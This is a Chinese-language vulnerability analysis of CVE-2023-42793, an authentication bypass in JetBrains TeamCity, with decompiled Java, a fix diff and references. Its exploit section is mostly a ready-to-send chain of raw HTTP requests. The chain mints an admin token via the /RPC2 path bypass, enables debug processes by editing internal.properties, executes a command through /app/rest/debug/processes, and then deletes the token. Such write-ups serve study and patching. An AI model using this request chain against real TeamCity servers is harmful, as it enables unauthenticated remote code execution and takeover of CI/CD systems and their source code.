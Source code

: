 # CVE-2023-42793

## 分析

代码在`/opt/teamcity/webapps/ROOT/WEB-INF/lib/web.jar`，cp出来反编译，因为teamcity是jetbrains自家的产品，拿IDEA会出现一部分代码反编译不出来，暂时不解决这个问题。



代码中逻辑错误导致的授权绕过：

```java
private boolean requestPreHandlingAllowed(@NotNull HttpServletRequest req) {
    // ...
    if (!this.myPreHandlingDisabled.matches(WebUtil.getPathWithoutContext(req))) {
        return true;
    }
    // path matches myPreHandlingDisabled? no pre-handling!
    return false;
}
```



```java
public RequestInterceptors(@NotNull List<HandlerInterceptor> var1) {
    // ...
    this.myPreHandlingDisabled.addPath("/**" + XmlRpcController.getPathSuffix());
    this.myPreHandlingDisabled.addPath("/app/agents/**");
}


```



```java
public class XmlRpcController extends AbstractController {
    public static String getPathSuffix() {
        return "/RPC2";
    }
    // ...
}
```



因此满足`/**/RPC2`的路由不会被授权。



## EXP

创建名字为RPC2的token

```http
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close


```



带着token开启调试模式：

```http
POST /admin/dataDir.html?action=edit&fileName=config/internal.properties&content=rest.debug.processes.enable=true HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.RlpHRjdlenRRZ3FPN1gxMFY3SG5hNEQ0YmVv.OTZmMzg2MmItZTYyNy00NzRhLTg1NGItYmM2NDY2MGY5MWQ0
Connection: close


```



RCE：

```http
POST /app/rest/debug/processes?exePath=id HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.RlpHRjdlenRRZ3FPN1gxMFY3SG5hNEQ0YmVv.OTZmMzg2MmItZTYyNy00NzRhLTg1NGItYmM2NDY2MGY5MWQ0
Connection: close


```



删除token：

```http
DELETE /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close


```

## 修复

```java
public RequestInterceptors(@NotNull List<HandlerInterceptor> var1) {
    // ...
-   this.myPreHandlingDisabled.addPath("/**" + XmlRpcController.getPathSuffix());
+   this.myPreHandlingDisabled.addPath(XmlRpcController.getPathSuffix());
}

```



## References

[Source Code at Risk: Critical Code Vulnerability in CI/CD Platform TeamCity | Sonar](https://www.sonarsource.com/blog/teamcity-vulnerability/)

[vulhub/teamcity/CVE-2023-42793/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/teamcity/CVE-2023-42793/README.zh-cn.md)